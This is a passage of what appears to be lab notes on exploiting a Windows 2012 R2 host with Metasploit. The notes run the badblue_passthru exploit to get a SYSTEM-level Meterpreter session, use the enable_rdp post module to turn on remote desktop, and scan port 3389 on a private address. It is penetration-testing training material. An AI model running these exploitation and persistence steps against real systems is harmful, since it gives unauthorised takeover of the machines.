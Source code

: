 ### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x86/windows

getuid
	Server username: NT AUTHORITY\SYSTEM

background
```

### Enable RDP

```bash
search enable_rdp
use post/windows/manage/enable_rdp
options
sessions
set SESSION 1
run
```

![Metasploit - post/windows/manage/enable_rdp](3-metasploitassets/image-20230419225404062.png)

```bash
# Verify port 3389 is open
db_nmap -p 3389 10.2.21.205
```
